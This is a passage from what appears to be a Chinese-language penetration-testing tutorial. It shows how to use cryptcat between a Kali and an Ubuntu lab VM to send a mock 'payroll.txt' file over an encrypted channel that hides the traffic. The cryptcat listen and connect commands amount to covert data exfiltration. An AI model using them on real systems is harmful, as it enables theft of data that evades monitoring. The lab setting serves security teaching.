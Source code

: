 +   你的 Kali Linux 虚拟机已经启动，你已作为 root 用户登录

+   你的 Ubuntu 虚拟机已经启动，并且你已经登录，处于 NAT 网络中并有互联网连接

# 如何操作...

为了使用`cryptcat`创建隧道以隐藏通信，我们将按照以下步骤操作：

1.  验证你的 Kali 虚拟机和 Ubuntu 虚拟机的 IP 地址。根据我的需要，我的 Kali 主机是`10.0.2.5`，Ubuntu 主机是`10.0.2.6`。

1.  首先我们将从当前登录的 Ubuntu 虚拟机开始，并通过在控制台中输入以下命令来将自己提升为 root 用户：

```
sudo su <enter>
```

1.  接下来，我们必须在 Ubuntu 虚拟机上安装`cryptcat`，输入以下命令：

```
apt install cryptcat
```

1.  从 Ubuntu 机器上，我们将输入以下命令来创建一个有趣的文件：

```
cd <enter>
touch payroll.txt <enter>
echo "john makes lots of money" >> payroll.txt <enter>
cat payroll.txt <enter>
```

![](img/134446f6-75e3-4ee5-af65-e1ade9284406.png)Ubuntu 终端窗口

1.  准备通过`cryptcat`传输文件，输入以下命令：

```
cryptcat -k password -v -l -p 8443 < payroll.txt <enter>
```

1.  切换到 Kali 主机，让我们通过打开终端窗口并输入以下命令来检索并验证文件：

```
cryptcat -k password -v 10.0.2.6 8443 >> payroll.txt <enter>
<ctrl>-c
cat payroll.txt
```
